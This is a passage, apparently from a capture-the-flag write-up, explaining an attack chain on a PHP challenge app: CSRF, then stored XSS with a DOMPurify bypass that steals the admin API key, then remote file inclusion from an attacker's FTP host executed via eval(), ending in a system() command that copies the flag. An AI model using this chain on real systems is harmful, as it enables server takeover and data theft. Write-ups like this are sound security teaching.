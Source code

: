 ```php
});
```

**Where It Goes Wrong**

* (F) `file_get_contents($filePath)` can read from a remote source if `allow_url_fopen` is on. So if `$filePath` is `ftp://attacker-ip/dashboard.php`, it will download remote PHP code.
* (G) `eval("?>" . $phpCode)` executes the downloaded code on the server.
* (H) The app calls `render($GLOBALS['settings']['templatesPath'] . '/dashboard.php')`. Because we changed template\_path, the server fetches `ftp://attacker:2121/dashboard.php` (or something similar) and runs it.

`Impact`: Full remote code execution. An attacker can supply a malicious `index.php` or `dashboard.php` that runs `system()` commands, such as copying `/flag*` to a publicly accessible directory.

#### Putting It All Together

CSRF on `/api/updateStatus` via "text/plain"
\
The attacker triggers the internal "bot" to load an attacker page that auto-submits a malicious form.
\
That form sets the user’s `status` to a malicious JavaScript snippet (XSS), due to improper JSON necoding implementation.

XSS -> Steal Admin Key
\
When the admin views the user’s status (or visits a page that shows "status"), the embedded JS runs using a DOMPurify bypass.
\
The script fetches the admin’s API key from the DOM and uses it to call `/api/admin/appSettings`.

RFI Setup -> `template_path`
\
Using the admin’s key, the attacker sets template\_path to an FTP address under their control.
\
The server’s `render()` function will then fetch `.php` files remotely.

Remote Code Execution
\
The attacker’s malicious `.php` is fetched and executed by `eval()`.
\
That `.php` does `system('cp /flag* /app/public/flag.txt');` (for example).
\
The attacker then simply requests `http://challenge/flag.txt` to read the captured flag.
